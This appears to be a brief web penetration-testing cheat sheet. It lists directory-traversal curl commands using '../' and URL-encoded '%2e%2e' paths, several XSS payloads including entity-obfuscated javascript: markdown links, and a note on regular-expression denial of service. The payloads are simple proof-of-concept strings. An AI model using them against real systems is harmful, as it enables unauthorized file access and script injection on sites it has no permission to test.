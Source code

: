 Directory Traversal
----
1. Go to path that serves static files
2. curl http://something.com/uploads
3. try viewing files higher up in dir:
curl http://something.com/uploads/../../../ or
curl http://something.com/uploads/%2e%2e/%2e%2e/%2e%2e/

XSS Inside input:
----
  <script>alert(1)</script>
  [Gotcha](javascript:alert(1))
  [Gotcha](javascript&#58alert(1&#41))
  [Gotcha](javascript&#58this;alert(1&#41))

Denial of Service
----
 with RegExp expressions (executing regexp that will almost match, but nut exactly)